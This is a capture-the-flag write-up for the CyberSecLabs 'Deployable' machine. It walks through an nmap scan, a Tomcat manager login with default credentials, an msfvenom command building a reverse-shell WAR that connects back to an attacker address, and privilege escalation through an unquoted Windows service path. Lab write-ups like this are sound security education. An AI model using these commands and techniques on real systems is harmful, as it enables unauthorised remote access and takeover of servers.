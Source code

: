 ```yaml
---
layout: post
title: Deployable - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/deployable.html
---
```


# Deployable - CyberSecLabs
----


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.13`

![image](https://user-images.githubusercontent.com/50459517/104624925-c3ae7300-5659-11eb-8b7a-913c4d5ae7d8.png)

Quite a few ports to look at.  First thing that I see that catches my eye is Tomcat running on port 8080.  Lets check this out and see what we find.

![image](https://user-images.githubusercontent.com/50459517/104624961-cf9a3500-5659-11eb-9ac9-d00a9418d094.png)

Looks like we have a default page with some information disclosure on the version of Tomcat running.  I looked for any vulnerabilities for Tomcat 7.0.88 and found a couple of possibilities but couldn't get them to work so I put them on the back burner.  I decided to fuzz for directories which didn't returned much but it did return a few results as we can see here.

![image](https://user-images.githubusercontent.com/50459517/104625488-68c94b80-565a-11eb-9d23-1c19f7fa95c5.png)

The manager directory looks interesting, lets check that out.

![image](https://user-images.githubusercontent.com/50459517/104625535-77affe00-565a-11eb-8073-21be0df27572.png)

We have a place to log in,  I tried a few common creds like admin:admin with no luck.  I then searched for tomcat default creds and for this list on GitHub

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

If we go through this list, we will find that the default creds of **tomcat:s3cret** work and we are now logged into the manager.

![image](https://user-images.githubusercontent.com/50459517/104625685-a037f800-565a-11eb-8b3f-284e9334f038.png)

If we scroll down, we see a place to upload a **.war** file.  This is perfect as we should be able to upload a malicious war file that can get us a shell on the machine.  Lets generate one with **msfvenom**

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.11 LPORT=1337 -f war > shell.war`

![image](https://user-images.githubusercontent.com/50459517/104625723-aaf28d00-565a-11eb-95ff-5008293a690b.png)

Once we upload our file to the server we will see it under Applications

![image](https://user-images.githubusercontent.com/50459517/104625743-b3e35e80-565a-11eb-82c0-6cf2768c9978.png)

Now we just need to start a netcat listener and click on the application to execute on the server.

![image](https://user-images.githubusercontent.com/50459517/104625776-be9df380-565a-11eb-8af3-ff0a2f1c15c4.png)

We now have a shell!  Now lets see if we can escalate our privileges.

I started with transferring over **WinPEAS** to the machine and found an unquoted service path that we may be able to abuse.  We can also see that we have access to create files in a directory within the path of this service executable.

![image](https://user-images.githubusercontent.com/50459517/104625828-ce1d3c80-565a-11eb-932b-42876bb97bf2.png)

![image](https://user-images.githubusercontent.com/50459517/104625885-dbd2c200-565a-11eb-86d5-a5f7718796e2.png)

We can query more information about this service with **sc qc Deploy**

![image](https://user-images.githubusercontent.com/50459517/104625924-e5f4c080-565a-11eb-9589-ea723e0688b9.png)

As we can see, this services seems to be running with system permissions.  Since we can see from the WinPEAS output that we can write to the **C:\Program Files\Deploy Ready** directory, we should be able to create a malicious file called **Service.exe** within this directory.

![image](https://user-images.githubusercontent.com/50459517/104625955-eee59200-565a-11eb-90f9-dbc1a32094d3.png)

Now we can execute this file by starting the service with **net start Deploy** and obtain a shell as system

![image](https://user-images.githubusercontent.com/50459517/104625980-f86efa00-565a-11eb-9abb-06f105ec3143.png)
